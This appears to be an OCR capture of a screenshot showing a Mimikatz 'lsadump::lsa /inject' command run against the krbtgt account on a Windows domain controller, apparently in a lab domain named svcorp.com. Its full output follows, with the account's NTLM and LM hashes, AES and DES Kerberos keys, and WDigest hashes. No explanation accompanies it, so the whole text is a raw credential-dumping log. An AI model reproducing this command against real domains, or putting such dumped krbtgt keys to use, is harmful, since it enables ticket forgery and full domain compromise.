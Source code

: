 * [x] \-\-\-\> lsadump::lsa /inject /user:Krbtgt

[DC] 'svcorp.com' will be the domain
[DC] 'sv-dc01.svcorp.com' will be the DC server
[DC] 'svcorp\\Krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS\_NEGOTIATE (9)
Object RDN : krbtgt

\*\* SAM ACCOUNT \*\*
SAM Username : krbtgt
Account Type : 30000000 ( USER\_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL\_ACCOUNT )
Account expiration :
Password last change : 3/7/2019 6:44:56 AM
Object Security ID : S-1-5-21-466546139-763938477-1796994327-502
Object Relative ID : 502

Credentials:
Hash NTLM: 22ec2cc749ad47431602a8d2ba0954e9
ntlm- 0: 22ec2cc749ad47431602a8d2ba0954e9
lm - 0: d85fe44f53fc02f44d319de97c94b7dc

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
Random Value : e79d8dea260ddb159c1d133a60311622

\* Primary:Kerberos-Newer-Keys \*
Default Salt : SVCORP.COMkrbtgt
Default Iterations : 4096
Credentials
aes256\_hmac (4096) : f7778735ed1b43d3197a405d38c1dc16fb371ada22a69c5e50980cabcdb4c476
aes128\_hmac (4096) : 644ea916ebe6cbb4914bc7ad63a68d75
des\_cbc\_md5 (4096) : 103de302c29d2a57

\* Primary:Kerberos \*
Default Salt : SVCORP.COMkrbtgt
Credentials
des\_cbc\_md5 : 103de302c29d2a57

\* Packages \*
NTLM-Strong-NTOWF

<br>
\* Primary:WDigest \*
01 89ce7a4db6978de087541c2dd8660417
02 21f8e154d475abc35f49e253acd0f9ab
03 3a5fab3699c55d5b74c3b02012e07eb4
04 89ce7a4db6978de087541c2dd8660417
05 21f8e154d475abc35f49e253acd0f9ab
06 e8cd022f5a7188b221d532722d305e2d
07 89ce7a4db6978de087541c2dd8660417
08 a721dfe22752748b65d382e823fb8b60
09 a721dfe22752748b65d382e823fb8b60
10 0847ab6447ebc6c89eea131e52549398
11 a31f81a0600d354f75e7420c294bf7c1
12 a721dfe22752748b65d382e823fb8b60
13 bf91ff964394c4ae17b69a306e2acb75
14 a31f81a0600d354f75e7420c294bf7c1
15 43f7d221ba1e15b1b63cff247ed2e7d4
16 43f7d221ba1e15b1b63cff247ed2e7d4
17 fbd69ac9387ce19fa93da710338ea836
18 8d91829bae4d33b6a87af07301961a29
19 75b77e9491db146d773a258570953fe2
20 f605ae695eef6d9bd15abf0e83f3231e
21 a23d0140ede12047259d5a2351d88b6a
22 a23d0140ede12047259d5a2351d88b6a